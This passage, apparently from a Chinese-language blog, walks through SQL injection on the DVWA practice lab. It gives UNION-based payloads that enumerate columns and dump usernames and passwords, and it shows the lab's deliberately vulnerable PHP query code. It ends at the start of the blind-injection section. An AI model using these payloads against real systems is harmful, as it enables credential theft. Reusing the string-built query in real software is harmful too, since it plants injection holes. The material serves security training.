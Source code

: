     1 union select 1, group_concat(column_name) from information_schema.columns where table_name=0x75736572#
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317101408853.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
爆内容：

    1 union select 1,concat(user,password) from users#
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317101654242.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

## High

### 查看源代码

    <?php
    
    if( isset( $_SESSION [ 'id' ] ) ) {
        // Get input
        $id = $_SESSION[ 'id' ];
    
        // Check database
        $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
        $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );
    
        // Get results
        while( $row = mysqli_fetch_assoc( $result ) ) {
            // Get values
            $first = $row["first_name"];
            $last  = $row["last_name"];
    
            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    
        ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
    }
    ?> 
    
        

相比Low，这里添加了`LIMIT 1`，即每次只输出一个结果，但我们用#还是能注释掉，剩余步骤与Low相同。

    		~~如果输入了两条语句，就会这样~~ 
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210317103807664.png%23pic_center)

* * *

## SQL Injection(Blind)

## Low
